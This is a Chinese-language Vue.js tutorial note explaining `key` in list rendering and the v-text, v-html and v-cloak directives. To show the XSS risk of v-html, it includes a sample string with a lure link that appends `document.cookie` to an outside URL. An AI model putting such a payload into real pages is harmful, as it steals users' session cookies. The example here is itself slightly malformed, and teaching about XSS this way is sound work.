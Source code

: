 **`key` 的作用：**

- 当列表的数据变化时，默认情况下，vue 会尽可能的复用已存在的 DOM 元素，从而提升渲染的性能。但这种默认的性能优化策略，会导致有状态的列表无法被正确更新。
- 为了给 vue 一个提示，以便它能跟踪每个节点的身份，从而在保证有状态的列表被正确更新的前提下，提升渲染的性能。此时，需要为每项提供一个唯一的 key 属性。
- `key` 是虚拟 DOM 对象的标识，可提高页面更新渲染的效率。当数据变化时，Vue 会根据新数据生成新的虚拟 DOM，随后进行新旧虚拟 DOM 的差异比较

**比较规则**

- 旧虚拟 DOM 找到和新虚拟 DOM 相同的 key：
  - 若内容没变，直接复用真实 DOM
  - 若内容改变，生成新的真实 DOM，替换旧的真实 DOM
- 旧虚拟 DOM 未找到和新虚拟 DOM 相同的 key：创建新的真实 DOM，渲染到页面

**`key` 的注意事项：**

- key 的值只能是**字符串**或**数字**类型
- key 的值必须具有唯一性（即：key 的值不能重复）
- 建议把数据项 id 属性的值作为 key 的值（因为 id 属性的值具有唯一性）
- 使用 index 的值当作 key 的值没有意义（因为 index 的值不具有唯一性）
- 建议使用 v-for 指令时一定要指定 key 的值（既提升性能、又防止列表状态紊乱）

![key的作用](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/yank-note-picgo-bfd2de53.png)

## 其它内置指令

### v-text

`v-text` 指令会覆盖元素默认值。

```html
<p v-text="username">这段内容会被覆盖</p>
```

```js
data() { return { username: "Bruce" } }
```

### v-html

> v-html 存在安全问题，容易导致 XSS 攻击

```html
<p v-html="desc">原本内容被覆盖</p>
```

```js
data() {
  return {
    desc: '<h1 style="color: red">红色标题</h1>'，
    str: '<a href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'
  }
}
```

### v-cloak

- 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删除 `v-cloak` 属性
- 使用 CSS 配合 `v-cloak` 可解决网速慢时页面展示 {{ xx }} 的问题
